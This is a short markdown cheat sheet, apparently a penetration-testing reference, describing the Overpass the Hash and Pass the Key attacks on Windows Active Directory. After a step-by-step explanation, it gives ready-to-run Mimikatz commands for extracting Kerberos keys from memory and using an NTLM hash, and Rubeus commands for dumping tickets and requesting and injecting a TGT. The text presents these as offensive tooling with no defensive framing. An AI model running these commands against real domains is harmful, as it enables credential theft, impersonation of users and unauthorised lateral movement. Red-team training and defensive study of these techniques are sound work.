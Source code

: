 #### Overpass the Hash
Turn a hash/key (rc4_hmac, aes256_cts_hmac_sha1, etc.) for a domain-joined user into a fully-fledged ticket-granting-ticket (TGT), effectively "upgrading" from NTLM to Kerberos.
1. The attacker obtains a user's NTLM hash.
2. Instead of using the hash directly with NTLM authentication (pass the hash), they use it to request a Kerberos TGT.
3. This creates new logon sessions that use Kerberos instead of NTLM.
4. The attacker can then access resources that may only accept Kerberos authentication.
#### Pass the Key
Pass the key is similar but uses the Kerberos authentication protocol elements directly.
1. The attacker extracts the long-term secret key (DES or AES keys) from the Windows memory
2. These keys are derived from the user's password and are used for Kerberos authentication.
3. The attacker uses these keys directly to generate Kerberos tickets.
---
## OPtH and PtK from Windows
> **Note:** Mimikatz requires administrative rights to perform the Pass the Key/OverPass the Hash attacks, while Rubeus doesn't.
1. Mimikatz
``` Powershell
# Extract kerberos keys
PS> mimikatz.exe "privilege::debug" "sekurlsa::ekeys"

# Use extracted key
PS> mimikatz.exe "privilege::debug" "sekurlsa::pth /domain: /user: /ntlm:"
# you can use /ntlm and /rc4 to overpass the hsah and /aes128,/aes256 to pass the key 
# A nwe cmd in the context of the target user will pop up or add /ptt to inject the TGT in the current session
```
2. Rubeus
``` Powershell
# Extract kerberos keys
PS> Rubeus.exe dump /nowrap

# Use extracted key
PS> Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /rc4:$NThash /nowrap /ptt
# you can use /ntlm and /rc4 to overpass the hsah and /aes128,/aes256 to pass the key 
```
---